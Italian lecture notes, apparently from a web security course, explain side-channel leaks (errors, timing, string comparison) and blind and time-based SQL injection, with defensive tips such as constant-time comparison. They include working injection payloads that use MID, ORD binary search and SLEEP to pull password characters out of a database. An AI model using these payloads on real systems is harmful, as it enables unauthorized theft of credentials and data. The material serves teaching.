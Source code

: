 Molto spesso le applicazioni possiedono **side effects**, ovvero fenomeni osservabili che rispecchiano lo stato interno dell'applicazione.
Se un _side effect_ dipende su un valore segreto allora abbiamo **leak parziale**, se il leak è grande abbastanza per recuperare un segreto allora abbiamo un attacco.

Un esempio banale è quello del **bute-force** di una password: ad ogni iterazione l'attaccante sa che una certa password non è corretta, bisogna quindi rallentare i controlli della password e/o disabilitare l'utente dopo qualche tentativo.

**Esempi di side channels**:
- Errori
- Tempo
- Contenuto
- Grandezza
- Consumo energetico
- Emissioni elettromagnetiche

Per <u>contrastare i leak da parte degli errori</u> è possibile **minimizzare l'errore** ovvero non dare informazioni dettagliate (e.g. se l'username o la password sono sbagliati potrebbe essere ritornato "wrong credentials").

Anche se l'errore viene ridotto, è pur sempre possibile osservare il tempo, magari l'errore viene ritornato più velocemente se è solo l'utente ad essere sbagliato.

Il confronto di stringhe ad esempio può essere più lento in base a "quanto differiscono":
```c
"aaaaa" == "aaaaa" // potrebbe essere più lento
"aaaaa" == "aaabb" // il confronto termina al quarto carattere
"aaaaa" == "a" // tipicamente più veloce a fallire
```

Un attaccante potrebbe andare ad indovinare un carattere alla volta controllando quando il tempo impiegato per il confronto è più alto:
```c
"axxxx" == "*****"
"abxxx" == "*****"
// ...
```

La soluzione è usare funzioni **time-safe**, in PHP `hash_equals` compara due stringhe impiegando sempre lo stesso tempo.

## Blind SQL injection
Questo tipo di injection sfrutta un side channel per eseguire il leak di informazioni, solitamente viene usato quando il risultato della query non viene mostrato nella pagina web.

In base al successo o meno della query, l'applicazione potrebbe mostrare:
- Un messaggio
- Un errore
- Una pagina "rotta"
- Una pagina vuota

Consideriamo un servizio di **recupero password** dove se l'utente esiste viene mandata una mail di recupero, altrimenti un errore viene mostrato.
>Nessuna informazione viene mostrata, ma l'errore dipende dalla query.

Supponiamo che la query che controlla l'esistenza della mail (data in input) nel database sia:
```sql
SELECT 1 FROM ... WHERE ... email='EMAIL'
```

L'effetto di `EMAIL=' OR 1 #` è quello di far riuscire la query, non esegue il leak di nessun'informazione però ora l'attaccante sa che le injection sono possibili.

La seguente query potrebbe fallire, tuttavia in ogni caso ritornerebbe un risultato distinguibile dal caso di successo:
```sql
SELECT 1
FROM people
WHERE mail='' OR (SELECT 1 FROM users LIMIT 0,1)=1 LIMIT 0,1;
```

Un attaccante può usare la funzione `MID` per controllare l'esistenza di una particolare colonna:
```sql
SELECT 1 FROM people WHERE mail=' ' OR (SELECT MID(password,1,0) FROM people LIMIT 0,1)='' #
```
>In questo caso controlla che esista la colonna.

```sql
' OR (SELECT MID(password,1,1) FROM people LIMIT 0,1)='a' #
```
>In questo caso prova a vedere se il primo carattere della password combacia con 'a'.

È possibile usare una **binary search** per trovare carattere per carattere:
```sql
' OR (SELECT ORD(MID(password,1,1)) FROM people LIMIT 0,1)<=ORD('m') #
FALSE

' OR (SELECT ORD(MID(password,1,1)) FROM people LIMIT 0,1)<=ORD('t') #
FALSE

' OR (SELECT ORD(MID(password,1,1)) FROM people LIMIT 0,1)<=ORD('w') #
FALSE

' OR (SELECT ORD(MID(password,1,1)) FROM people LIMIT 0,1)<=ORD('y') #
TRUE

' OR (SELECT ORD(MID(password,1,1)) FROM people LIMIT 0,1)<=ORD('x') #
TRUE
```
>Worst case: 5 query per i caratteri lowercase ($\log_226 \sim 4.7$).

## Totally blind SQL injection
Nel caso in cui la web app non mostri nessun tipo di risultato l'attaccante puà comunque usare il **tempo** come side channel.

L'attaccante può ancora usare la ricerca binaria:
```sql
' OR (SELECT IF(
 (SELECT ORD(MID(password,1,1)) FROM people LIMIT 0,1)<=ORD('m'),
 SLEEP(1),
 NULL)
 ) #
```

Il tempo di _sleep_ deve essere abbastanza per essere osservato da remoto, l'attacco è lento ma può eseguire il leak di tutto il database.
